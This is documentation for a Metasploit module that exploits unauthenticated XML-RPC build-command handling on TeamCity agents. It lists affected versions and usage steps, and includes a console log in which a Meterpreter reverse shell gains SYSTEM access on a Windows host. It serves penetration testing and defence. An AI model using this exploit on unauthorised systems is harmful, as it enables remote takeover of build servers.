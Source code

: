## Description

This module allows remote code execution on TeamCity Agents configured to use bidirectional communication via xml-rpc. In bidirectional mode the TeamCity server pushes build commands to the Build Agents over port TCP/9090 without requiring authentication. Up until version 10 this was the default configuration. This module supports TeamCity agents from version 6.0 onwards.

This module makes use of both a Windows and a Linux command stager. For Linux, the `echo` command stager flavor was replaced with the `printf` command stager flavor due to portability issues associated with `echo` and its options.

## Vulnerable Application

This module has been tested successfully with the following TeamCity Agent versions

* TeamCity 6.0
* TeamCity 6.5
* TeamCity 7.0
* TeamCity 8.0
* TeamCity 9.0
* TeamCity 10.0
* TeamCity 2017
* TeamCity 2018

## Verification Steps

1. `msfconsole`
2. `use exploit/multi/misc/teamcity_agent_xmlrpc_exec`
3. `set RHOSTS <rhost>`
4. `set payload <payload>`
5. `run`

## Options

**RPORT**

Which port the TeamCity Agent is listening on (default: 9090)

**CMD**

If specified the module will run the specified command instead of executing the payload

## Scenarios

### Windows Server 2012 R2 (x64) with TeamCity Agent 2018.1

```
msf > use exploit/multi/misc/teamcity_agent_xmlrpc_exec 
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set RHOSTS 172.16.198.149
RHOSTS => 172.16.198.149
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set LHOST eth0
LHOST => eth0
msf exploit(multi/misc/teamcity_agent_xmlrpc_exec) > run

[*] Started reverse TCP handler on 172.16.198.150:4444 
[*] Found TeamCity Agent running build version 58245
[*] Constructing Windows payload
[*] Found compatible build config for TeamCity build 58245
[*] Successfully sent build configuration
[*] Sending stage (179779 bytes) to 172.16.198.149
[*] Meterpreter session 1 opened (172.16.198.150:4444 -> 172.16.198.149:49178) at 2018-10-03 17:21:12 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
